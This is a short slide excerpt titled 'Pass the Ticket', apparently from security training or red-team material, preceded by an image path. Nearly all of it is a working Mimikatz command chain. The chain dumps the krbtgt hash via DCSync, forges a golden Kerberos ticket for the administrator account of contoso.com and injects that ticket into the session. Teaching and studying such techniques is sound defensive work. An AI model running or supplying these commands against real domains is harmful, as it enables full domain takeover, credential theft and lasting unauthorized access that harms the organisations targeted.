

Pass the Ticket
privilege::debug
lsadump::dcsync /user krbtgt
#take the RC4 hash (or NT Hash) of the output
kerberos::golden /admin:administrator /domain:contoso.com /sid:S-1-5-21-13452501-2365100805-3685010340 /krbtgt:810b643c5316c8c3c90a10cfb17e2f31 /ticket:golden.kirbi
kerberos::ptt c:\golden.kirbi